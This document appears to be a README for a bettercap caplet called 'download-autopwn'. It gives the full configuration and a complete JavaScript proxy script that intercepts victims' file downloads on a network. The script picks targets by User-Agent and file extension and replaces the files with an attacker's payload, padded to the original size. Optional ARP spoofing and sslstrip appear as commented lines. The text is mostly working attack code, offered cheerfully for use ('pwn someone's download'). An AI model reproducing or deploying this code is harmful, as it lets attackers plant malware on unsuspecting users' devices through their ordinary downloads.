 <p align="center"><img height="142px" src="https://cdn.rawgit.com/yungtravla/cdn/a5ec3cd7/github.com/bettercap/caplets/download-autopwn/dap.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/blob/master/download-autopwn/README.md
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can add your own)
#

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept comma separated file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {}

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m",
    redLine = "\n  " + onRed + " " + reset

function onLoad() {
	devices = env("downloadautopwn.devices").split(",")
	logStr = ""
	for (var i = 0; i < devices.length; i++) {
		item = {
			"device": devices[i],
			"useragent": env("downloadautopwn.useragent." + devices[i]),
			"extensions": env("downloadautopwn.extensions." + devices[i]).toLowerCase().split(",")
		}
		targets[i] = item
		logStr += "\n  " + green + targets[i]["device"] + reset +
		          "\n    User-Agent: " + targets[i]["useragent"] + 
		          "\n    Extensions: " + targets[i]["extensions"] + "\n"
	}
	log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
	// First of all check whether the requested path might have an extension (to save cpu)
	var requestedFileName = req.Path.replace(/.*\//g, "")
	if ( requestedFileName.indexOf(".") != -1 ) {
		var userAgent = req.GetHeader("User-Agent", ""),
		    extension,
		    headerCount = req.Headers.length
		// Iterate through targets
		for ( var t = 0; t < Object.keys(targets).length; t++ ) {
			// Check if User-Agent is a target
			regex = new RegExp(targets[t]["useragent"])
			if ( userAgent.match(regex) ) {
				// Iterate through target extensions
				for (var e = 0; e < targets[t]["extensions"].length; e++) {
					// Check if requested path contains a targeted extension
					// function endsWith() could be a nice simplification here
					if ( requestedFileName.replace(/.*\./g, "").toLowerCase() == targets[t]["extensions"][e] ) {
						extension = targets[t]["extensions"][e]
						// Autopwn
						logStr = "\n" + redLine + "  Autopwning download request from " + boldRed + req.Client + reset + 
						         redLine + 
						         redLine + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset + 
						         redLine + 
						         redLine + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
						// Check requested file size
						requestedFile = res.ReadBody()
						requestedFileSize = requestedFile.length
						payload = readFile("/usr/share/bettercap/caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
						payloadSize = payload.length
						logStr += redLine + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes" + 
						          redLine + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes" + redLine
						// Append nullbytes to payload if resizing is enabled and if requested file is larger than payload
						if ( env("downloadautopwn.resizepayloads") == "true" && requestedFileSize > payloadSize ) {
							logStr += redLine + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
							sizeDifference = requestedFileSize - payloadSize
							nullbyteString = Array(sizeDifference + 1).join(nullbyte)
							payload += nullbyteString
						}
						// Set Content-Disposition header to enforce file download instead of in-browser preview
						res.SetHeader("Content-Disposition", "attachment; filename=\"" + requestedFileName + "\"")
						// Update Content-Length header in case our payload is larger than the requested file
						res.SetHeader("Content-Length", payload.length)
						logStr += redLine + "  Serving your payload to " + boldRed + req.Client + reset + "...\n"
						log(logStr)
						res.Body = payload
					}
				}
			}
		}
	}
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
